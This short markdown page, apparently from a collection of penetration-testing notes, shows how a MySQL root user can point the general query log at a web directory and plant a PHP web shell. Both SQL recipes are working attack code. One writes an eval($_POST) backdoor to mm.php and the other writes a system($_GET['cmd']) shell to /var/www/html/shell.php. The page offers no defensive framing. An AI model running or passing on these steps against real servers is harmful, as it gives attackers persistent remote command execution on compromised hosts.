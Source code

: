 # Mysql change log file to get shell

When you get a mysql `root` user, you can change the log file to get a shell.

```sql 
SET GLOBAL general_log = "OFF"; 
SET GLOBAL general_log_file="C:/phpStudy/WWW/mm.php";

SET GLOBAL general_log = "ON"; 
SELECT "<?php eval($_POST['mane']); ?>"; 
SET GLOBAL general_log = "OFF"; 
```

``` sql
# Check if the current environment is enabled or not.
SHOW VARIABLES LIKE '%general_log%';

# Set the logging output file
SET GLOBAL general_log_file="/var/www/html/shell.php";

# Enable logging
SET GLOBAL general_log = "ON";

# Then all the commands you type will be recorded in the log file.
SELECT '<?php system($_GET["cmd"]);?>';

# disable logging
set global general_log = off;
```
